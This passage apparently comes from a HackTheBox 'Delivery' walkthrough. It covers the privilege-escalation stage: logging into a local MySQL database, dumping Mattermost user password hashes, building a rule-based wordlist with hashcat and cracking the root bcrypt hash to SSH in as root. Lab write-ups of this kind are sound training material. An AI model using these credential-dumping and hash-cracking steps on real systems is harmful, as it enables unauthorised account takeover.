 ```bash
 mysql -h localhost -u mmuser -p 
 enter password: Crack_The_MM_Admin_PW
```
- **-h** --> hostname 
- **-u** --> username
- **-p** --> password

With the help of netstat (or linpeas), I was able to see that port 3306 was listening to the localhost.
![](/assets/images/HTB/Delivery/Delivery-17.png)

Then, after been logged in we are able to find the *Mattermost DB*.
```sql
show databases
```

![](/assets/images/HTB/Delivery/Delivery-18.png)

```sql
use mattermost;
show tables;
```

![](/assets/images/HTB/Delivery/Delivery-19.png)

Travesing the data Im able to find some *usernames* and *passwords* on the table "Users"

```sql
SELECT Username, Password,EmailVerified FROM Users;
```
![](/assets/images/HTB/Delivery/Delivery-20.png)


## Getting Root Password.
From the following query I was able to find root hash. To identify the type of the hash that you have thanks to hashid. To find more on how to [identify Hashes](https://miloserdov.org/?p=1254)
```bash
hashid -m '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
```

![](/assets/images/HTB/Delivery/Delivery-21.png)

Now as we read on the mattermost chat server, I need to create some variants (add some rules) of the password **PleaseSubscribe** to crack the hash that we got. To learn more about learning how to add rules to an existent password please reffer to the following [link](https://www.youtube.com/watch?v=SAvo_h7WSUc)

```bash
hashcat --force pass.txt  -r /usr/share/hashcat/rules/best64.rule --stdout
```

![](/assets/images/HTB/Delivery/Delivery-22.png)

With the new dictionary created we are able to crack the password with the help of hashcat

```bash
hashcat -m 3200 hash_root dict.txt
```
![](/assets/images/HTB/Delivery/Delivery-23.png)

Finally, I just need to login as root with the cracked password and we are able to find the **root.txt** flag

```bash
ssh root@10.10.10.222
```

![](/assets/images/HTB/Delivery/Delivery-24.png)
